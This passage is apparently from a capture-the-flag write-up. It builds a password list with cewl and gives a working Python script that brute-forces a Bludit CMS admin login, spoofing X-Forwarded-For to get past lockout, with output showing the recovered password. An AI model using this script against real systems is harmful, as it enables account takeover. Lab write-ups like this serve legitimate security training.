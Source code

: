     :::text
    cewl -d 1 http://10.10.10.191 -w pass

We quickly rewrite the POC in order to load the passwords from our `pass` file.

    :::python
    #!/usr/bin/env python3
    import re
    import requests

    host = 'http://10.10.10.191'
    login_url = host + '/admin/login'
    username = 'fergus'

    f = open("pass", "r")

    for p in f:
        password = p.strip()
        session = requests.Session()
        login_page = session.get(login_url)
        csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

        print('[*] Trying: {p}'.format(p = password))

        headers = {
            'X-Forwarded-For': password,
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
            'Referer': login_url
        }

        data = {
            'tokenCSRF': csrf_token,
            'username': username,
            'password': password,
            'save': ''
        }

        login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

        if 'location' in login_result.headers:
            if '/admin/dashboard' in login_result.headers['location']:
                print()
                print('SUCCESS: Password found!')
                print('Use {u}:{p} to login.'.format(u = username, p = password))
                print()
                break

We run the script and found the password `RolandDeschain`.

    :::text
    $python3 bludit_auth_bypass.py
    [*] Trying: Load
    [*] Trying: Plugins
    [*] Trying: and
    <SNIP>
    [*] Trying: best
    [*] Trying: fictional
    [*] Trying: character
    [*] Trying: RolandDeschain

